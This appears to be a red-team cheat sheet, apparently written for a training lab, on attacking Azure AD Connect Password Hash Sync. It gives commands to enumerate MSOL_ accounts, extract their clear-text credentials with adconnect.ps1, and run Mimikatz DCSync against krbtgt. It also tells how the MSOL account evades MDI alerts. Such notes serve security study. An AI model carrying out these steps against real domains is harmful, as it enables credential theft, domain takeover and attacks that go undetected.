 # AD - Cross Domain Attacks / Azure AD

## Methods

* Password Hash Sync (PHS)
* Pass-Through Authentication (PHA) - on-prem DC has to check all requests - AzureAD just forwards
* Federation

## PHS Attacks

* It shares users and their password hashes from onpremises AD to Azure AD.
* A new users MSOL\_ is created which has Synchronization rights (DCSync) on the domain!
* If you compromise MSOL\_\* account you can conduct the DCSync attack!

Requirement: Compromised AD Connect Server

1. Enumerate PHS Accounts

Get-DomainUser -Identity "MSOL\_\*" -Domain techcorp.local

Get-ADUser -Filter "samAccountName -like 'MSOL\_\*'" - Server techcorp.local -Properties \* | select SamAccountName,Description | fl

2. On AD Connect Machine

With administrative privileges, if we run adconnect.ps1, we can extract the credentials of the MSOL\_ account used by AD Connect in clear-text from an mssql db on that server

&#x20;.\adconnect.ps1

3. DC Sync Attack

Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'\
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'

Start a cmd as MSOL

runas /user:techcopr.local\MSOL\_\*\*\* /netonly cmd

Hint: Please note that because AD Connect synchronizes hashes every two minutes, in an Enterprise Environment, the MSOL\_ account will be excluded from tools like MDI! This will allow us to run DCSync without any alerts!



